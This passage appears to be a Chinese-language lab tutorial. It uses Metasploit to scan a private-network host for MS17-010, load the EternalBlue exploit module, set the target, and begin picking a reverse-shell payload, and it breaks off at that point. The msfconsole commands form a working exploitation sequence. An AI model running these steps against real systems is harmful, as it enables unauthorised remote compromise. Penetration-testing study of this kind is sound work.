 ```c#
msf5 auxiliary(scanner/smb/smb_ms17_010) > set RHOST 192.168.37.142
msf5 auxiliary(scanner/smb/smb_ms17_010) > run
```

运行之后发现该主机容易受到攻击，也验证了 nessus 扫描的漏洞

![](https://img-blog.csdnimg.cn/img_convert/08f3acda11024bd13d9579d9299c7e08.png)

接下来 查找攻击模块进行

退出上一个

```c#
msf5 auxiliary(scanner/smb/smb_ms17_010) > back
```

然后搜索模块并使加载该攻击模块

```c#
msf5 > search ms17-010
msf5 > use exploit/windows/smb/ms17_010_eternalblue
```

![](https://img-blog.csdnimg.cn/img_convert/39e6c5c05a2f70a11c7d3e21fda4c59f.png)

查看该模块的配置项

```c#
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options
```

![](https://img-blog.csdnimg.cn/img_convert/99d0129bcd1629a21a8cc13699616358.png)

设置该配置选项

```c#
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOST 192.168.37.142
```

![](https://img-blog.csdnimg.cn/img_convert/27d5bee9f952007ba796a18efb57ef77.png)

查看 exploit target 目标类型

```c#
msf5 exploit(windows/smb/ms17_010_eternalblue) > show targets
```

可以看到这个模块只有一个 target，所以默认就选择这个目标系统。不需要手动设置。

![](https://img-blog.csdnimg.cn/img_convert/639c773c036e3e90d2d09063deaf0b7b.png)

找一个payload 获取shell 远程连接权限后，进行远程执行命令

注：payload 又称为 攻击载荷，主要用来建立目标机和攻击机稳定连接的，可返回shell ，也可以进行程序 注入

```c#
msf5 exploit(windows/smb/ms17_010_eternalblue) > search windows/x64/shell type:payload
```

我们挑选一个 反弹 shell 的 payload

